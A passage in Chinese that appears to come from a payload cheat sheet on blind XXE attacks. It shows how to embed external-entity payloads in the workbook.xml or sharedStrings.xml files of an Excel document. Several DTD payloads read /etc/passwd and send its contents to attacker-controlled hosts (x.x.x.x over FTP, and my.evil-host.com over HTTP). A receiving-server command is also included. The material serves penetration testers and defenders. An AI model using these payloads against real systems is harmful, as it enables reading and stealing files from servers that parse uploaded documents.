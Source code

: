 提取Excel文件：`7z x -oXXE xxe.xlsx`

重新构建Excel文件：

```ps1
cd XXE
zip -r -u ../xxe.xlsx *
```

警告：使用`zip -u`（[https://infozip.sourceforge.net/Zip.html](https://infozip.sourceforge.net/Zip.html)）而不是`7z u` / `7za u`（[https://p7zip.sourceforge.net/](https://p7zip.sourceforge.net/)）或`7zz`（[https://www.7-zip.org/](https://www.7-zip.org/)），因为它们不会以相同的方式重新压缩，许多Excel解析库将无法将其识别为有效的Excel文件。使用`file XXE.xlsx`显示的魔数字节签名将显示为`Microsoft Excel 2007+`（使用`zip -u`），而无效的则显示为`Microsoft OOXML`。

在`xl/workbook.xml`中添加您的盲XXE有效负载。

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

或者，在`xl/sharedStrings.xml`中添加您的有效负载：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

使用远程DTD将节省我们每次想要检索不同文件时重建文档的时间。相反，我们可以先构建一次文档，然后更改DTD。使用FTP代替HTTP允许检索更大的文件。

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

使用[staaldraad/xxeserv](https://github.com/staaldraad/xxeserv)提供DTD并接收FTP有效负载：

```ps1
xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### 在DTD文件中的XXE

上述大多数XXE有效载荷都需要控制DTD或`DOCTYPE`块以及`xml`文件。
在极少数情况下，您可能只能控制DTD文件，而无法修改`xml`文件。例如，MITM。
当您唯一控制的是DTD文件，且不控制`xml`文件时，XXE仍可能通过此有效载荷实现。

```xml
<!-- 将敏感文件的内容加载到变量中 -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- 使用该变量构造带有文件内容的HTTP GET请求 -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```
